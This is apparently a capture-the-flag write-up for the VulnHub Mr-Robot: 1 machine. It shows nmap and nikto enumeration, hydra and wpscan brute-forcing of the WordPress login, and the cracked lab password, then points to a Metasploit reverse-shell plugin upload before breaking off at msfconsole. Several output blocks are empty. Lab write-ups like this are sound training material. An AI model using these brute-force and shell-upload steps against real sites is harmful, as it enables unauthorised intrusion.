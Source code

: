 ```yaml
---
layout: post
title: "Mr. Robot"
date: 2022-04-10 20:50:57 +0200
categories: VulnHub
tags: VulnHub
excerpt: "Lorem ipsum dolor sit amet, consectetur adipiscing elit. Cras nulla nisi, gravida eget lacus sed, feugiat rhoncus lectus. Maecenas condimentum rutrum dolor, ut ultrices risus tempor vel. Mauris sed iaculis elit, id efficitur nulla. Morbi vitae purus et eros venenatis hendrerit quis non nibh. Suspendisse est turpis, ultricies et ipsum et, semper tincidunt ex. Phasellus accumsan enim nec arcu mollis ultricies. Suspendisse congue mi diam, ut auctor turpis faucibus ut."
---
```


[Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/) has 3 flags to find.

## Preparation

The virtual machines are placed onto the same isolated internal network where they can only communicate with each other.

On the isolated internal network, a VirtualBox DHCP server assigns IP addresses to the machines:

```cmd
vboxmanage dhcpserver add --network=intnet --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```

The **Kali** machine received the IP address `10.38.1.110`.

Launching **Mr. Robot**, we're presented with a login screen that cannot be bypassed as the login credentials aren't known.

## Enumeration

### Nmap

**Nmap** can be used to discover the vulnerable machine on the network:

```sh
kali@kali$ nmap -sS -T4 10.38.1.110-120
```

```

```

**Nmap** found the vulnerable machine and reported it with the IP address `10.38.1.111` and with TCP ports `80` (http) and `443` (https) open.

Looking up `10.38.1.111` in a web browser, we're presented with the clone of the promotion website of the Mr. Robot TV series.

## 1st Flag

**Nikto** can be used to gather further information about the web server.

```

```

1. The server leaks inodes via ETags and a header has been found with file **/robots.txt**

```

```

  2. The server is running **Wordpress**

```

```

> Note<br>
> A [robots.txt](https://developers.google.com/search/docs/advanced/robots/intro) file tells search engine crawlers which URLs the crawler can access on your site.
> This is used mainly to avoid overloading your site with requests; it is not a mechanism for keeping a web page out of Google.

**robots.txt** indicates that the server doesn't have an user agent but it has two files:

- fsocity.dic
- key-1-of-3.txt

**wget** can be used to download the files:

```sh
kali@kali$ wget 10.38.1.111/fsocity.dic
kali@kali$ wget 10.38.1.111/key-1-of-3.txt
```

```sh
kali@kali$ cat key-1-of-3.txt

```

## 2nd Flag

As SSL isn't enabled on the Wordpress login page, it may be bruteforced with the downloaded dictionary file.

`fsocity.dic` contains duplicated entries that should be removed.

```sh
kali@kali$ cat fsocity.dic | sort -u | uniq > wordlist.dic
```

The word count of the dictionary has decreased from `858160` to `11451`.

```
kali@kali$ wc -l fsocity.dic
858160 fsocity.dic
```

```
kali@kali$ wc -l wordlist.dic
11451 wordlist.dic
```

To start the bruteforce attack, we need to intercept an [http POST request](<https://en.wikipedia.org/wiki/POST_(HTTP)>) in [Burp Suite](https://portswigger.net/burp).

To do that, a manual proxy must be configured in the browser and Burp Suite should have the same Proxy Listener set:

- HTTP Proxy: `127.0.0.1`
- Port: `8080`

In the intercepted POST request - that has been sent to the server - we're looking for the `log`, `pwd`, and the `wp-submit` fields.

**hydra** can be used to guess the username:

```sh
kali@kali$ hydra -V -L fsocity.dic -p 123 10.38.1.111 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

- `-V` — Verbose
- `-L fsocity.dic` — Define dictionary
- `-p 123` — Random unique password
- `10.38.1.111` — IP of the vulnerable machine
- `http-post-form` — An http POST form is being bruteforced
- `/wp-login.php` — Path where the form is located
- `log=^USER^&pwd=^PASS&wp-submit=Log+In` — POST parameters to send, including placeholders
- `F=Invalid Username` — Consider an attempt as failure if the response contains the text "Invalid Username".

**hydra** has found 3 possible usernames:

```sh
[80][http-post-form] host: 10.38.1.111 login: elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: Elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: ELLIOT password: 123
```

**wpscan** can be used to find additional WordPress vulnerabilities and to bruteforce the password using the word list.

```sh
kali@kali$ wpscan --url 10.28.1.111 --passwords /home/kali/mrrobot/wordlist.dic --usernames Elliot
```

**wpscan** has found several outdated plugins and one valid username - password pair.

```sh
[+] performing password attach on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot - / ER28-0652
All Found
Progress Time: 00:00:19 <========================================================================

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

**Metasploit** [WordPress Admin Shell Upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module creates a small WordPress plugin that connects back to the attacking machine and spawns a reverse shell.

```sh
kali@kali$ msfconsole
```
